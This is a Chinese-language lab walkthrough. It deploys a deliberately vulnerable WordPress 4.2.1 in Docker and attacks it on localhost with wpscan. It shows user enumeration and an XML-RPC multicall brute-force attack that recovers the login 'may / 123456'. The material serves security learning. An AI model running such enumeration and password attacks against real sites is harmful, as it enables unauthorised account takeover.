 环境使用 wpscan 开发团队提供的 VulnerableWordpress 进行部署 版本为 4.2.1

```plain
-> git clone https://github.com/wpscanteam/VulnerableWordpress.git
-> cd VulnerableWordpress/
-> docker build --rm -t wpscan/vulnerablewordpress .\
-> docker run --name vulnerablewordpress -d -p 81:80 -p 3307:3306 wpscan/vulnerablewordpress
```

访问 127.0.0.1:81 初始化过程略  
[![](assets/1706513536-aa683d97acbf8695de333be9382bf913.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1705136492103-8bcfbf42-404c-4a79-8b0f-f17cd656807f.png#averageHue=%23dfdfdf&clientId=uad14354d-ef7d-4&from=paste&height=836&id=u635ac550&originHeight=1672&originWidth=3078&originalType=binary&ratio=2&rotation=0&showTitle=false&size=284245&status=done&style=none&taskId=uf17d4505-1056-413b-8354-087a3dc7c73&title=&width=1539)  
使用 wpscan 进行用户枚举

```plain
-> wpscan --url http://localhost:81/ --enumerate
[i] User(s) Identified:

[+] may
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

获得用户名 may，爆破密码

```plain
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
WARNING: Your progress bar is currently at 0 out of 0 and cannot be incremented. In v2.0.0 this will become a ProgressBar::InvalidProgressError.
Progress Time: 00:00:00 <===========================================================================================================> (0 / 0) 100.0% Time: 00:00:00
[SUCCESS] - may / 123456
All Found
```
